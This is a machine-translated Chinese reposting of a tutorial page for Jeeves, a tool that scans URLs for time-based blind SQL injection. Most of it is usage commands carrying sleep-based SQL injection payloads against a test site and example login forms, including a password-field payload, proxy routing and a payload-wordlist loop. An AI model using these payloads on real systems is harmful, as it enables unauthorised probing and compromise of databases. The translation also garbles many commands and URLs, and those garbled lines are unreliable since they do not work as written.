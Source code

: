 # Jeeves:基于时间的盲 SQLInjection Finder

> 原文：<https://kalilinuxtutorials.com/jeeves/>

[![](img/c26b736a6e2ac76f60d1adbc92f58e03.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg4m3-iHvwR142XT3M8V30YCjXaWEXiVK5FUy7tCr2iuC17Ko5Vx2j5eR2KW-y_AdK2-Lw1JPm7-9_R2452fJU-IJ6yvudsAPhIqymzJVeDckeq5ADEob9QSJpdZ057Q2U7nQ_SSveMN11wFr8D2c1FRo6cMdvy0z8DVAU5D6u9qLCUjsCUO06S40An/s801/gojayyyy%20(2).png)

Jeeves 是为通过 recon 寻找基于时间的盲 SQL 注入而设计的。

## 安装和要求

安装 Jeeves

**$去安装 github.com/ferreiraklet/Jeeves@latest**

运筹学

**git 克隆 https://github . com/ferre raklet/jeeves . git
$ CD jeeves
$ go build jeeves . go
$ chmod+x jeeves
$。/jeeves-h〔t5〕**

## 用法和解释

## 单一 URL

**附和'https://redacted.com/index.php？id = your _ time _ based _ blind _ payload _ here ' | jeeves-t payload _ time
echo "http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves–payload-time 5【回声"http://testphp.vulnweb.com/artists.php T2？artist = " | QS replace "(select(0)from(select(sleep(10)))v)" | jeeves-t 10**

在有效负载时间内，您必须使用有效负载中提到的时间

### 从列表中

`**cat targets | jeeves --payload-time 5**`

### 添加标题

注意语法！必须相同= >

**附和"http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves-t 5-H "测试:测试；OtherHeader:值；其他 2:值"**

## 使用代理

**附和"http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves-t 5–proxy " http://IP:port "
echo "http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves-t 5-p " http://IP:port "**

## 代理+头= >

**附和"http://testphp.vulnweb.com/artists.php？artist = " | QS replace "(select(0)from(select(sleep(5)))v)" | jeeves–payload-time 5–proxy " http://IP:port "-H " User-Agent:xxxx "**

### 发布请求

通过 post 请求发送数据(登录表单等)

注意语法！必须相等！->

**echo " https://example . com/log in . aspx " | jeeves-t 10-d " user =(select(0)from(select(sleep(5)))v)&password = XXX "
echo " https://example . com/log in . aspx " | jeeves-t 10-H " header 1:value 1 "-d " username = admin&password = '+(select * from(select(sleep(5)))a)+'-p " http://your proxy:port "【关键词**

## 另一种用法

你可以使用 Jeeves 与其他工具，如 gau，gauplus，waybackurls，qsreplace 和 bhedak，掌握他的力量

**命令行标志**

**用法:
-t，–payload-time，从 payload 开始的时间
-p，–proxy 发送流量到一个代理
-c 设置并发，默认 25
-H，–Headers 自定义头
-d，–data 发送 Post 请求带数据
-h 显示此帮助消息**

与 sql 有效负载单词列表一起使用

**cat sql_wordlist.txt |在读取有效负载时；do echo http://testphp.vulnweb.com/artists.php?artist= | QS replace $ payload | jeeves-t 5；完成**

[Download](https://github.com/ferreiraklet/Jeeves)